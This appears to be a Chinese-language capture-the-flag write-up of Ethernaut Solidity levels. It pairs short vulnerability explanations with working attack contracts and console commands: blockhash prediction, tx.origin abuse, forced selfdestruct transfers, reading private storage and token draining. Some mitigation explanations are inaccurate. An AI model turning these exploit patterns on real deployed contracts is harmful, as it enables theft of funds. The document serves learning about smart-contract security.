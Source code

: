 ### Ethernautu遊戲學習重點:

* 安全問題
* 涉及合約的分析
* 攻擊流程的演示



--

3. Coin Flip

隨機數用 blockhash 容易被預測而變成攻擊目標，建議使用第三方服務，像是 chainLink 來取得隨機數。

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract CoinFlipAttack {
    ICoinFlip constant private target = ICoinFlip(await contract獲取的實體地址);
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    function attack() public {
        uint256 blockValue = uint256(blockhash(block.number-1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        target.flip(side);
    }
}
```

```
Number(await contract.consecutiveWins())
```

![](https://i.imgur.com/OPkrhp2.png)

--

4. Telephone

在智能合約編程中，盡量不要使用 x.origin，因為它容易受到攻擊，即攻擊者可以偽造訊息，將其發送給一個合約，同時將 x.origin 偽造成另一個地址，從而騙取合約的某些權限。相反，msg.sender 更加安全，因為它不容易被攻擊者偽造。

```
pragma solidity ^0.8;

interface ITelephone {
    function owner() external view returns (address);
    function changeOwner(address) external;
}

contract Hack {
    constructor(address _target) {
        // tx.origin = msg.sender
        // msg.sender = address(this)
        ITelephone(_target).changeOwner(msg.sender);
    }
}
/*
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
        owner = _owner;
    }
}
```

![](https://i.imgur.com/o6HLfym.png)

--

7. Force

selfdestruct 可以讓一個合約在自我銷毀之前將其餘的以太幣發送到一個指定的地址。攻擊者可以利用合約內的漏洞，使得目標合約在執行自毀函數時，將合約餘額轉移給攻擊者控制的地址，從而實現向目標合約強制轉賬。建議避免在合約內部存儲過多的以太幣，限制自毀函數的權限等。
```
pragma solidity ^0.8;

contract Hack {
    constructor(address payable _target) payable {
        selfdestruct(_target);
    }
}
```

![](https://i.imgur.com/eKZUN4u.png)

--



12. privacy

以太坊在儲存時是以32 bytes為一格順序儲存的，所以定義變量的順序會影響花費Gas的多少

依32 bytes 一格，會以下劃分:

Slot 0
```
bool public locked = true;
```
Slot 1
```
uint256 public ID = block.timestamp;
```
Slot 2
```
uint8 private flattening = 10;
uint8 private denomination = 255;
uint16 private awkwardness = uint16(now);
```
Slot 3-5
```
bytes32[3] private data;
```


```
await web3.eth.getStorageAt(instance, 5)
'0x60d11579d2e9f3002771e25ea211665c2728080663f62254aff89d7ef1ccd863'

<!-- 取0x後面的32位 -->
contract.unlock("0x60d11579d2e9f3002771e25ea211665c")

```



--

15. Naught Coin

為了防止這種漏洞，合約應該使用 SafeMath 庫來避免整數溢出攻擊。此外，合約應該在對代幣數量進行操作之前，應該先檢查操作是否合法，例如檢查代幣數量是否超過了合約的最大值。開發者還可以使用 require 語句來確保合約在滿足特定條件時才能繼續執行。

```
pragma solidity ^0.8;

interface INaughtCoin {
    function player() external view returns (address);
}

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
}

// 1. Deploy
// 2. coin.approve(hack, amount)
// 3. pwn
contract Hack {
    function pwn(IERC20 coin) external {
        address player = INaughtCoin(address(coin)).player();
        uint256 bal = coin.balanceOf(player);
        coin.transferFrom(player, address(this), bal);
    }
}
```
![](https://i.imgur.com/7iDsLJs.png)

--

21. Shop

該合約的漏洞在於，合約在購買商品時並未檢查商品的價格是否為0。合約應該在購買商品之前檢查商品的價格是否為正確的價格，也應該在購買商品時檢查付款是否等於商品價格。這些檢查可以通過實現合約中的相應函數來實現，例如在購買商品時實現一個 buyItem 函數，在其中進行價格檢查和付款檢查。此外，還可以使用 SafeMat h庫來避免整數溢出攻擊，以及使用 require 語句來確保合約在滿足特定條件時才能繼續執行。

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```
![](https://i.imgur.com/0P00J1K.png)


